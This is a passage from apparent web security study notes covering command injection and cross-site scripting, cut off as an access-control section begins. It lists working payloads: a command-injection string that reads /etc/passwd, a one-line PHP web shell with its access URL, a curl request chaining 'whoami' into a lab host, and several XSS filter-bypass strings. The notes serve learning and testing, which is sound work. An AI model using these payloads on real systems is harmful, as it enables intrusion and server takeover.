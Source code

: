 - Bypasses: newline (`%0A`), null byte, encoded pipes
- Real-world use: ping, traceroute, disk check inputs

#### 🧪 Payloads from Notes

- Simple: `ip=127.0.0.1;cat /etc/passwd`
- PHP eval shell:
    ```php
    <?php system($_GET["cmd"]); ?>
    ```
    Access via: `upload/shell.php?cmd=whoami`

#### 🔧 Tools

- Burp Repeater to test chained commands    
- curl:
    ```bash
    curl 'http://10.0.0.2/commandexec/example1.php?ip=127.0.0.1|whoami'
    ```

---

### 6. Cross-Site Scripting (XSS)

#### ❓ What is it?

Injection of JavaScript into pages viewed by other users.

#### 🧠 Theory Recap

- Types:    
    - Reflected: immediate response (in URL)
    - Stored: persistent, stored in DB
    - DOM-based: JS reads malicious input
- Impacts: Session hijack, phishing, defacement

#### 🧪 Payloads from Notes

- Pop-up Script: `<script>alert('RC')</script>`
- Case bypass: `<scRIPT>alert('RC')</SCrIPT>`
- Double-injection: `<scr<script>ipt>alert('RC')</src<script>ipt>`
- No-script fallback: `<img src=x onerror=alert('RC')>`

#### 🔧 Tools

- Burp Suite (check rendered response)
- JS testing tools like `alert()`, `prompt()`, `confirm()`

---

### 7. Access Control Vulnerabilities

#### ❓ What is it?
